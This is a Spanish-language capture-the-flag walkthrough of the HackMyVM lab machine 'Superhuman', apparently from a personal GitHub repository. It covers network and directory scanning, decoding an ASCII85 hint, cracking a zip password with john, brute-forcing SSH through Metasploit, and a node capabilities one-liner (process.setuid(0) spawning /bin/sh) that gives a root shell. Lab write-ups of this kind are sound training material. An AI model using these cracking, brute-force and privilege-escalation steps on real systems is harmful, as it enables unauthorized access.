 ## MAQUINA SUPERHUMAN 

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20233159.png)

Hacemos un escaneo de red con arp-scan

```console
arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 08:00:27:57:91:54, IPv4: 192.168.0.162
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1     f8:08:4f:71:a2:de       Sagemcom Broadband SAS
192.168.0.33    08:00:27:1d:22:f1       PCS Systemtechnik GmbH
192.168.0.234   4c:82:a9:09:41:63       CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD.
192.168.0.232   18:c0:4d:26:7c:42       GIGA-BYTE TECHNOLOGY CO.,LTD.
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212435.png)

Listo ya tenemos la ip victima, ahora lanzamos un ping a ella para verificar que tengamos conectividad

```console
ping -c 3 192.168.0.33
PING 192.168.0.33 (192.168.0.33) 56(84) bytes of data.
64 bytes from 192.168.0.33: icmp_seq=1 ttl=64 time=3.54 ms
64 bytes from 192.168.0.33: icmp_seq=2 ttl=64 time=1.19 ms
64 bytes from 192.168.0.33: icmp_seq=3 ttl=64 time=0.815 ms
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212529.png)

Lanzamos un escaneo con nmap a la maquina victima para ver que puertos y servicios estan abiertos:

```console
nmap -A -T5 192.168.0.33 -oN escaneo2.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 21:25 -03
Nmap scan report for superhuman.fibertel.com.ar (192.168.0.33)
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9e:41:5a:43:d8:b3:31:18:0f:2e:32:36:cf:68:c4:b7 (RSA)
|   256 6f:24:81:b4:3d:e5:b9:c8:47:bf:b2:8b:bf:41:2d:51 (ECDSA)
|_  256 49:5f:c0:7a:42:20:76:76:d5:29:1a:65:bf:87:d2:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:1D:22:F1 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212619.png)

La pagina nos arroja un entorno todo en blanco, el cual no nos sirve de nada, asi que vamos a realizar un escaneo de directorios ocultos con gobuster.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212930.png)

```console
gobuster dir --url http://192.168.0.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt.

Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/notes-tips.txt       (Status: 200) [Size: 358]
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20224922.png)

CONSEJO: "Prueben esa wordlists y mandenle full a los hilos porque tarda"

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20223932.png)

El gobuster nos arroja un directorio llamado /notes-tips.txt, ingresamos a ella y tenemos esta cadena de texto rara.

```console
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c
```

Para decodificar esto utilize la siguiente pagina ya que no podia decifrarla.

>https://www.dcode.fr/ascii-85-encoding

Una vez decodifcada dice lo siguiente:

>salome doesn't want me, I'm so sad... i'm sure god is dead...

>I drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and she'll

>desire me. I'll name it salome_and_?? I don't know.

>I must not forget to save it and put a good extension because I don't have much storage

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225309.png)

Al parecer el que escribio esta nota, guardo un poema que se llama salome_and_??.

Bien si nos ponemos a pensar dice que lo guardo en una extension porque no tenia espacio xD, eso nos da una pista de que puedo ser una extension tar,zip,gz.. otro caso son los signos de pregunta de como se llama el poema "??", piensen, yo supongo que como habla de él debe ser "me".

Vamos a ver si existe, coloquemos las posibilidades en el navegador.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225700.png)

Se nos descargo un archivo, con john the ripper vamos a tratar de crackear la pass del archivo.

```console
zip2john salome_and_me.zip > hash-zip
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230110.png)

Luego: 

```console

john --wordlist=/usr/share/wordlists/rockyou.txt hash-zip 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (salome_and_me.zip/salome_and_me.txt)     
1g 0:00:00:00 DONE (2024-04-13 23:00) 16.66g/s 170666p/s 170666c/s 170666C/s 123456..1asshole
Use the "--show" option to display all of the cracked passwords reliably
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230115.png)

Una vez descargado leemos el poema y aca tenemos al dueño del poema el Sr. fred.

```console
----------------------------------------------------

             GREAT POEM FOR SALOME

----------------------------------------------------


My name is fred,
And tonight I'm sad, lonely and scared,
Because my love Salome prefers schopenhauer, asshole,
I hate him he's stupid, ugly and a peephole,
My darling I offered you a great switch,
And now you reject my love, bitch
I don't give a fuck, I'll go with another lady,
And she'll call me BABY!

```

Ya tenemos una credencial, si pensamos y leemos el poema, notamos que tiene palabras medias raras, lo que hize fue colocar todas las palabras una debajo de la otra para luego utilizarla de contraseñas para logearnos en el SSH.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230436.png)

Con metasploit vamos a ingresar las opciones para ver si conseguimos dar con la contraseña.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20231410.png)

Y BIEN! obtuvimos la password, aclaro que tambien se puede hacer con "hydra" a la fuerza bruta.

Ingresamos con las credenciales y somos el usuario fred.

Chusmeamos a que tenemos por delante

```console
fred@superhuman:~$ uname -a 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
fred@superhuman:~$ lsb_release -a 
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 10 (buster)
Release:        10
Codename:       buster
```

Aca hay un pequeño detalle, al listar el contenido del directorio, esta nos bota o rechaza o nos saca como quieran decirlo, asi que encontra esta forma de buscar y leer las flags ya que si le coloque el "ID" y no me saco XD.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232002.png)

```console

find / -type f -name '*.txt' 2>/dev/null
/home/fred/cmd.txt
/home/fred/user.txt
/var/www/html/notes-tips.txt
```

Excelente, ahora nos queda por escalar privilegios, para eso utilizamos el siguiente:

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232740.png)

Hay una capabilities que podemos explotar, en este caso vamos a gtfobins >> node >> y vemos que tenemos las capabilities. Para loguearnos como root usamos el siguiente comando.

>fred@superhuman:/$ which node
/usr/bin/node
fred@superhuman:/$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232957.png)


##SOMOS ROOT.



